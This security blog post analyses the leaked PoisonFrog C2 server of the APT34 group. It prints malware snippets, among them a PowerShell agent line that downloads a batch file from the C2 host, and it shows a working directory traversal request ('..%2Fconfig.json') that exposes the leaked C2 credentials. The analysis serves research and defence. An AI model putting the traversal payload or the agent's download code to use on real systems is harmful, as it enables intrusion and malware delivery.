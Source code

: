 ```yaml
---
layout: post
title:  "A journey on APT34 PoisonFrog C2 Server"
date:   2019-05-31
categories: security apt34 malware poisonfrog vulnerability
---
```


## Introduction

In this blog post I will analyse the C2 Server used by Oilrig/APT34 and how bad coding practice can lead to vulnerabilities that can allow the takeover of the C2 server.

Every time there is a leak that affects some hacking group it always sparks my interest. I always study the source code and the features these tools have in order to learn new techniques that may come in handy during our Red Team operations, so I started digging in the PoisonFrog C2 framework.


I started by downloading the tools on Github : <https://github.com/blackorbird/APT_REPORT/tree/master/APT34>


## PoisonFrog C2 Server


The C2 Server is built on node.js and the coding pattern that are used shows that whoever programmed the C2 side of the framework wasn't very experienced with programming. Unfortunately the source code of the C2 server is missing the most important part, the script bringing everything together, but by looking at different components of the framework we get a clear description of how everything is "glued" together.


The "serverside" folder of the C2 framework contains the following files :


* installing - This folder contains bash and bat scripts for the installation of the dependencies.
* routes - This folder contains a javascript file that contains most of the source code.
* views - The html templates.
* 0000000000.bat/9999999999.bat - bat files that gathers information about the computer is executed on.
* config.json - The C2 server configuration.


The most interesting file was index.js which was responsible for exporting most of the functions used by the C2 server.
Firstly, I started looking at the login functionality which immediately showed the code quality. As can be seen below, it first checks if a cookie with the username is set and if not it will try to compare the credentials provided on the request. 
This authentication mechanism is clearly poor and there are a lot of bad practices but none of them allows you to bypass the authentication.

```js
exports.login = function (req, res) { // .......... login checking function ............
    var Cookies = require('cookies');
    var cookies = new Cookies(req, res);
    var cookie = cookies.get(config.user);
    if (cookie === undefined) {
        //console.log("cookie not exist");
        var username = req.body.username;
        var password = req.body.password;
        //console.log(username+"   "+password);
        if (username == config.user && password == config.password) {
            // set cookie
            cookies.set(config.user, config.password, { maxAge: new Date(Date.now() + 3600000), expires: new Date(Date.now() + 3600000), httpOnly: true })
            //console.log('cookie created successfully');
            res.redirect("/in/http");
            return;
        } else {
            res.redirect(config.guid);
            return;
        }
    } else {
        // yes, cookie was already present 
        //console.log('cookie exists', cookie);
        res.redirect("/in/http");
    }
}
```


At this point I was pretty sure there would be some more poorly implemented code and I stumbled across the following function.

```js
exports.getFile = function (req, res) {
    var fileName = req.params.input;
    var fs = require('fs');
    var fileAddress = commonDir + "files/" + fileName;
    fs.createReadStream(fileAddress).pipe(res);
};
```
The exported function getFile initializes the fileName variable from the request that is sent to the C2 server. Since no sanitization is done on the input, an attacker can specify a specially crafted *input* parameter in  order to access files outside of the main directory.


Unfortunately, we do not have access to the entire source code but based on the code we have we can confirm that the vulnerability exists.


In order to understand at what point of the communication between the agent and the C2 the getFile function was used, I needed to get a better understanding of both components.


On line 826 the exports.agent function is defined with the comment "agent request for last command". From that comment we can clearly understand that this function is responsible for handling the command distribution on the agent. 
Basically what the function does is it will get the agentId from the request and check if this is an existing agent or not.
If it's a new agent, it will create three directories "/send/" , "/receive/", "/wait/" as can bee seen in the code snippet below.

```js
var agentCode = req.params.input;
[SNIP]
agentId = agentCode.substring(0, 5) + agentCode.substring(agentCode.length - 5, agentCode.length);
var agentDir = commonDir + "http/" + agentId;
        if (!fs.existsSync(agentDir)) { // this is new agent ....
            fs.mkdir(agentDir, function (err) {
                if (err) { console.log(err); }
                fs.mkdir(agentDir + "/send/");
                fs.mkdir(agentDir + "/receive/");
                fs.mkdir(agentDir + "/wait/", function (err) {
                    if (err) { console.log(err); }
[SNIP]
```

We can skip the send and receive folders and only focus on the /wait/ one. As I mentioned earlier, the *0000000000.bat* file was responsible for collecting information regarding a Windows host.
So after creating the wait folder, it will read the bat file and write it in commonDir + "/files/386be98ce7c7955f92dc060779ed7613" as can be seen in the below :

```js
fs.createReadStream("./0000000000.bat").pipe(fs.createWriteStream(commonDir + "/files/386be98ce7c7955f92dc060779ed7613"));
```

Additionally, it will create a file named 00000000 in the Agent wait directory.
```js
fs.writeFile(agentDir + "/wait/0000000000", "0000000000<>C:\\Users\\Public\\Public_Data\\files\\0000000000.bat<>0000000000.bat<>386be98ce7c7955f92dc060779ed7613<>not", function (err) { if (err) { console.log(err); } });
```

We can see that the filename *386be98ce7c7955f92dc060779ed7613* which was created previously, is embedded in the response the C2 server sends to the agent. Merely by looking at the constructed string we can see that the filename is used by the agent to access the bat file. If you remember the getFile function, it was using the same directory (commonDir + /files) to serve the files thus demonstrating the consistency of the file directories between the getFile and agents functions.


The other missing part of the puzzle is the URL endpoint the *getFile* function was called on and since some of the server code was missing my focus turned in analyzing the powershell Agent.

In order to understand the process better let's follow the communication between the agent and the C2 step by step.

1. Agents connects to the C2 Server.
2. C2 Server builds the command and sends it to the agent.
```
0000000000<>C:\\Users\\Public\\Public_Data\\files\\0000000000.bat<>0000000000.bat<>386be98ce7c7955f92dc060779ed7613<>not
```
3. The Agent receives the command from the C2, and creates an array out of it as we can see in the following code snippet:
```ps
if ({DownloadedCommand}) {
        {AgentCommandArray} = {DownloadedCommand}.split("<>") | where {$_}
```
4. After performing some checks on the array, the agent used powershell webclient in order to download the file named as the third(fourth) element of the array and saving it in $EEA+second(third) element of the array. The $EEA variable is defined in the beginning of the agent and contains the value $env:PUBLIC+"\Public\files\".

```ps
{WebClientGlbVariable}.DownloadFile("http://c2server/fil/"+{AgentCommandArray}[3], $EEA+{AgentCommandArray}[2]);
```
The "parsed" call would we something like this :
```
WebClient.DownloadFile("http://c2server/fil/386be98ce7c7955f92dc060779ed7613",$env:PUBLIC+"\Public\files\" +  "0000000000.bat" .
```

It should be noted that the following snippets of code has been taken by the HTTP agent that was dropped by the powershell script. Also, some of the variable names have been  changed to be more clear to read.

Now we can clearly connect all the dots between the way the agent downloads the file and how the getFile function is responsible for sending the file response back.

## Conclusions

Having a good understanding of where the vulnerable function is used, the implementation of the missing code would be something like this :

```js
const express = require('express')
const app = express()
[SNIP]
app.get('/fil/:input',getFile);
[SNIP]
```

As I described earlier in the post, this is a directory traversal vulnerability and can be exploited in several ways but the most relevant in this case would be reading the config.json file which contains the clear text credentials of the C2, giving us control over the C2 Server. An example service was started that implemented the same function as the C2 server and sending the following request disclosed the clear text credentials on the config.json file, in this case the ones in the leak.

```bash
test@ubuntu:~$ curl 'http://127.0.0.1:3000/fil/..%2Fconfig.json'
{
    "guid" : "/7345SDFHSALKJDFHNASLFSDA3423423SAD22",
        "user" : "blacktusk",
        "password" : "fireinthehole"
}test@ubuntu:~$
```

Keep in mind that this blog post this was constructed by my understanding of both the components of Poison Frog but I can't certainly confirm the existence of the vulnerability without having the entire code. However, there are firm evidences in the components code that agree with me `¯\_(ツ)_/¯` .

If you have any questions or maybe some knowledge to drop feel free to contact me.



